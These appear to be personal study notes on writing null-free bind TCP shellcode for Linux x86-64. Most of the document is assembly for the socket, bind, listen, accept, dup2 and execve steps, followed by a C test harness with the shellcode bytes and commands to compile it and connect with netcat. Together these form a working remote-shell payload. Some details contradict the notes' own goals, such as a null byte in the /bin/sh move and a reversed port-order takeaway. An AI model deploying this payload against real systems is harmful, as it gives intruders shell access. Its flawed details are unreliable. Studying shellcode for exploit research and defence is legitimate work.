

# ExpDev: Bind TCP Shellcode

> Topic: Writing bind TCP shellcode from scratch on Linux x86-64
> Source basis: Personal study notes on exploit development

---

## Challenge / Topic Overview

This writeup documents my process of writing a bind TCP shellcode from scratch for Linux x86-64. A bind shell opens a listening port on the target machine; when the attacker connects, the shellcode spawns a shell bound to that TCP connection. This is the counterpart to a reverse shell (where the target connects back to the attacker), and it's useful when the target is behind a firewall that allows inbound but blocks outbound connections.

The goal is to write position-independent shellcode (no hardcoded addresses) that fits within a typical overflow buffer (under 150 bytes) and contains no null bytes (which would terminate `strcpy`-based overflows).



*The six syscalls required for a bind shell. The shellcode runs entirely on the target, opening a port and waiting for the attacker to connect. Once connected, stdin/stdout/stderr are redirected to the socket and a shell is spawned.*

---

## The Syscall Sequence

A bind shell requires six syscalls in sequence:

| # | Syscall | rax | Purpose |
|---|---------|-----|---------|
| 1 | `socket` | 41 | Create a TCP socket |
| 2 | `bind` | 49 | Bind the socket to a port |
| 3 | `listen` | 50 | Listen for incoming connections |
| 4 | `accept` | 43 | Accept an attacker connection |
| 5 | `dup2` | 33 | Redirect stdin/stdout/stderr to the socket |
| 6 | `execve` | 59 | Spawn `/bin/sh` on the socket |

---

## Step-by-Step Implementation

### Step 1 — Create the socket

```c
int sockfd = socket(AF_INET, SOCK_STREAM, 0);
```

In assembly:
```asm
xor rsi, rsi          ; rsi = 0 (protocol = IPPROTO_IP)
push 0x29             ; socket syscall number (41)
pop rax               ; rax = 41
push 0x2              ; AF_INET
pop rdi               ; rdi = 2 (domain)
push 0x1              ; SOCK_STREAM
pop rsi               ; rsi = 1 (type)
cdq                   ; rdx = 0 (protocol) — sign-extends eax into edx:eax
syscall               ; rax = sockfd
```

### Step 2 — Bind to a port

```c
struct sockaddr_in addr;
addr.sin_family = AF_INET;
addr.sin_port = htons(4444);
addr.sin_addr.s_addr = INADDR_ANY;
bind(sockfd, &addr, sizeof(addr));
```

The `sockaddr_in` struct must be constructed on the stack. Port 4444 in network byte order is `0x115c`, but `0x11` is fine (no null byte issues). If I needed a port with a null byte (e.g., 80 = `0x0050`), I'd have to use arithmetic tricks to avoid the null.

```asm
mov rdi, rax          ; rdi = sockfd (from socket)
push rdx              ; push 0 (INADDR_ANY, padded)
push word 0x5c11      ; push port 4444 in network byte order
push word 0x2         ; push AF_INET
mov rsi, rsp          ; rsi = &addr
push 0x10             ; sizeof(addr) = 16
pop rdx               ; rdx = 16
push 0x31             ; bind syscall number (49)
pop rax
syscall
```

### Step 3 — Listen

```asm
push 0x1              ; backlog = 1
pop rsi               ; rsi = 1
push 0x32             ; listen syscall number (50)
pop rax
syscall
```

### Step 4 — Accept

```asm
xor rsi, rsi          ; addr = NULL
xor rdx, rdx          ; addrlen = NULL
push 0x2b             ; accept syscall number (43)
pop rax
syscall               ; rax = clientfd
```

### Step 5 — dup2 (redirect stdin/stdout/stderr)

```asm
mov rdi, rax          ; rdi = clientfd
xor rsi, rsi          ; rsi = 0 (stdin)
push 0x21             ; dup2 syscall number (33)
pop rax
syscall

push 0x1
pop rsi               ; rsi = 1 (stdout)
push 0x21
pop rax
syscall

push 0x2
pop rsi               ; rsi = 2 (stderr)
push 0x21
pop rax
syscall
```

### Step 6 — execve /bin/sh

```asm
xor rsi, rsi          ; argv = NULL
xor rdx, rdx          ; envp = NULL
push rsi              ; null terminator
mov rdi, 0x68732f6e69622f  ; "/bin/sh"
push rdi
mov rdi, rsp          ; rdi -> "/bin/sh"
push 0x3b             ; execve syscall number (59)
pop rax
syscall
```

---

## Testing

I extract the shellcode bytes from the assembled binary, embed them in a C harness, and compile:

```c
// test.c
char shellcode[] = "\x48\x31\xf6\x6a\x29\x58\x6a\x02\x5f\x6a\x01\x5e\x99\x0f\x05...";
int main() {
    ((void(*)())shellcode)();
}
```

```bash
gcc -fno-stack-protector -z execstack -o test test.c
./test &
nc localhost 4444
# → shell!
```

---

## Takeaways

- **Network byte order matters.** Ports and IPs in `sockaddr_in` are big-endian. Port 4444 is `0x115c`, not `0x5c11`. Get this wrong and the shell binds to a random port.
- **Null bytes are the enemy.** Every `push 0` or `mov rax, 0` introduces a null byte. Use `xor reg, reg` to zero a register, and use `push imm8; pop reg` (which sign-extends to 64-bit) instead of `mov rax, imm64` where possible.
- **Stack alignment.** The `sockaddr_in` struct must be 16-byte aligned on the stack for some kernel versions. Pushing in the right order (padding → port → family) handles this naturally.
- **Bind vs. reverse.** Bind shells are simpler to write but rarely work in real engagements because firewalls block inbound connections. Reverse shells are more practical but require the attacker to set up a listener first. I keep both in my toolkit.
